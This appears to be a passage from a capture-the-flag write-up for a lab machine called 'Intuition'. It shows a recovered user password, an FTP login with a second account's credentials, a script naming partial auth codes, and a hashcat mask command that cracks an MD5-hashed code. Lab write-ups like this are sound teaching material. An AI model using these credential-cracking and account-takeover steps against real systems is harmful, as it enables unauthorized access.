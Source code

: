 I obtained the password for user "lopez." It is **`Lopezz1992%123`**. I used this password to access the account of user "lopez."

I also gained access to FTP using:

```bash
lopez@intuition:~$ ftp adam@127.0.0.1
Connected to 127.0.0.1.
220 pyftpdlib 1.5.7 ready.
331 Username ok, send password.
Password: adam gray
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
```

I retrieved all the cool stuff from there using the **`get <file_name>`** command:

- **`payload.txt`**
- **`runner1`**
- **`runner1.c`**
- **`run-tests.sh`**

The "run-tests.sh" file contains:

```bash
#!/bin/bash

# List playbooks
./runner1 list

# Run playbooks [Need authentication]
# ./runner run [playbook number] -a [auth code]
#./runner1 run 1 -a "UHI75GHI****"

# Install roles [Need authentication]
# ./runner install [role url] -a [auth code]
#./runner1 install http://role.host.tld/role.tar -a "UHI75GHI****"

```

The "runner1.c" file contains the authentication code, but it's hashed in MD5. I will save it somewhere naming `myhash.txt`.

I cracked the auth code from run-tests.sh file using the following command as we knew the first part of the authentication key **`UHI75GHI****`**and the hash was available in runner1.c:

```css
hashcat.exe -a3 -m0 myhash.txt UHI75GHI?u?u?u?u --self-test-disable
```

The cracked hash is **`UHI75GHINKOP`**.
